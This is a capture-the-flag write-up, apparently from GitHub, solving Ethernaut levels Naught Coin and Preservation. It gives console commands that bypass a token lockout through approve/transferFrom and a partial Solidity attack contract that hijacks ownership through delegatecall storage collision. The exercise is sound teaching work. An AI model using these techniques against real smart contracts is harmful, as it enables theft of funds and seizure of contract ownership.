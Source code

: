 

# 15. [Challenge 15: Naught Coin](https://ethernaut.openzeppelin.com/level/0x096bb5e93a204BfD701502EB6EF266a950217218)

Tasks:
- NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

**Solution:** \
Payload for CMD line:
```
await contract.approve(player, "1000000000000000000000000")
await contract.transferFrom(player, "0x5206e78b21Ce315ce284FB24cf05e0585A93B1d9", "1000000000000000000000000")

To check allowed token to transfer: (await contract.allowance(player, player)).toString()
```

ERC20 has 3 optional function and 6 mandatory function. In the CTF contract only `transfer` function has `lockTokens ` modifier but we can use `approve` function approve other user to spend the tokens for this challenge we approve ourselves for spender and then we can use `transferFrom` function to send all token to any address to solve the challenge.


# 16. [Challenge 16: Preservation](https://ethernaut.openzeppelin.com/level/0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F)

Tasks:
- The goal of this level is for you to claim ownership of the instance you are given.

**Solution:** \
Attack Payload:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Attack {
    // Make sure the storage layout is the same as Preservation
    // This will allow us to correctly update the state variables
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    Preservation public hackMe;

    constructor(Preservation _hackMe) public {
        hackMe = Preservation(_hackMe);
    }

    function attack() public {
        // this will execute setTime function Preservation contract. 
        // Then HackeMe contract delegatecall the LibraryContract contract and 
        // it will change Preservation contract's timeZone1Library state variable to our address
        hackMe.setFirstTime(uint(uint160(address(this))));
        // pass any number as input, the function setTime() below will
        // be called and it will execute Attacker contract setTime function and 
        // change the Preservation contract's owner address to Attacker contract's address
        hackMe.setFirstTime(1);
    }

    // function signature must match HackMe.doSomething()
    function setTime(uint _num) public {
```